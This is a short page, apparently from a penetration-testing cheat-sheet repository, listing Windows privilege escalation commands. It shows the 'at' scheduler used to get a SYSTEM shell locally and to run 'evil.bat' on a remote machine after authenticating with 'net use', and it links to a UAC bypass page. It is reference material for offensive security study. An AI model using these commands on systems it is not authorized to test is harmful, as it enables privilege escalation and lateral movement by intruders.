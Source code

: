 # Windows Privilege Escalation Commands

Command that can be executed from the context of a shell prompt that help escalate or increase attacker privilege of the target.

  * [UAC](uac.md) - How to bypass UAC.

# General Commands
### at (Scheduler)
 * **Command with arguments**: `at [TIME] [cmd]`
 * **Description**: This command can be used locally to escalate privilege to SYSTEM or be used across a network to execute commands on another system.
 * **Examples**: 
    * Locally - `at 13:20 /interactive cmd`
    * Remotely - From http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607
         * `net use \\[computername|IP] /user:DOMAIN\username password`
         * `net time \\[computername|IP]`
         * `at \\[computername|IP] 13:20 c:\temp\evil.bat`
